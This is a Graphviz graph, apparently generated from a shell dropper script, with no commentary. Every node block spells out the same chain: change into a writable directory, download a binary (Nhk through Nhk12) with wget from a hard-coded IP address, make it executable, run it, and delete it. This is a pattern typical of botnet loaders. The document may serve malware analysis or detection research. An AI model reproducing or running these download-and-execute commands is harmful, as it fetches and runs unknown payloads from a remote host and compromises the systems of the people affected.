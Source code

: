 digraph {
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 10 [label="||,"];
10 [label="wget http://198.23.194.132/Nhk "];
10 -> 12 [label=";,"];
12 [label="chmod +x Nhk "];
12 -> 14 [label=";,"];
14 [label="./Nhk "];
14 -> 16 [label=";,"];
16 [label="rm -rf Nhk "];
16 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 28 [label="||,"];
28 [label="wget http://198.23.194.132/Nhk2 "];
28 -> 30 [label=";,"];
30 [label="chmod +x Nhk2 "];
30 -> 32 [label=";,"];
32 [label="./Nhk2 "];
32 -> 34 [label=";,"];
34 [label="rm -rf Nhk2 "];
34 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 46 [label="||,"];
46 [label="wget http://198.23.194.132/Nhk3 "];
46 -> 48 [label=";,"];
48 [label="chmod +x Nhk3 "];
48 -> 50 [label=";,"];
50 [label="./Nhk3 "];
50 -> 52 [label=";,"];
52 [label="rm -rf Nhk3 "];
52 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 64 [label="||,"];
64 [label="wget http://198.23.194.132/Nhk4 "];
64 -> 66 [label=";,"];
66 [label="chmod +x Nhk4 "];
66 -> 68 [label=";,"];
68 [label="./Nhk4 "];
68 -> 70 [label=";,"];
70 [label="rm -rf Nhk4 "];
70 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 82 [label="||,"];
82 [label="wget http://198.23.194.132/Nhk5 "];
82 -> 84 [label=";,"];
84 [label="chmod +x Nhk5 "];
84 -> 86 [label=";,"];
86 [label="./Nhk5 "];
86 -> 88 [label=";,"];
88 [label="rm -rf Nhk5 "];
88 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 100 [label="||,"];
100 [label="wget http://198.23.194.132/Nhk6 "];
100 -> 102 [label=";,"];
102 [label="chmod +x Nhk6 "];
102 -> 104 [label=";,"];
104 [label="./Nhk6 "];
104 -> 106 [label=";,"];
106 [label="rm -rf Nhk6 "];
106 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 118 [label="||,"];
118 [label="wget http://198.23.194.132/Nhk7 "];
118 -> 120 [label=";,"];
120 [label="chmod +x Nhk7 "];
120 -> 122 [label=";,"];
122 [label="./Nhk7 "];
122 -> 124 [label=";,"];
124 [label="rm -rf Nhk7 "];
124 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 136 [label="||,"];
136 [label="wget http://198.23.194.132/Nhk8 "];
136 -> 138 [label=";,"];
138 [label="chmod +x Nhk8 "];
138 -> 140 [label=";,"];
140 [label="./Nhk8 "];
140 -> 142 [label=";,"];
142 [label="rm -rf Nhk8 "];
142 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 154 [label="||,"];
154 [label="wget http://198.23.194.132/Nhk9 "];
154 -> 156 [label=";,"];
156 [label="chmod +x Nhk9 "];
156 -> 158 [label=";,"];
158 [label="./Nhk9 "];
158 -> 160 [label=";,"];
160 [label="rm -rf Nhk9 "];
160 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 172 [label="||,"];
172 [label="wget http://198.23.194.132/Nhk10 "];
172 -> 174 [label=";,"];
174 [label="chmod +x Nhk10 "];
174 -> 176 [label=";,"];
176 [label="./Nhk10 "];
176 -> 178 [label=";,"];
178 [label="rm -rf Nhk10 "];
178 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 190 [label="||,"];
190 [label="wget http://198.23.194.132/Nhk11 "];
190 -> 192 [label=";,"];
192 [label="chmod +x Nhk11 "];
192 -> 194 [label=";,"];
194 [label="./Nhk11 "];
194 -> 196 [label=";,"];
196 [label="rm -rf Nhk11 "];
196 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 208 [label="||,"];
208 [label="wget http://198.23.194.132/Nhk12 "];
208 -> 210 [label=";,"];
210 [label="chmod +x Nhk12 "];
210 -> 212 [label=";,"];
212 [label="./Nhk12 "];
212 -> 213 [label=";,"];
}
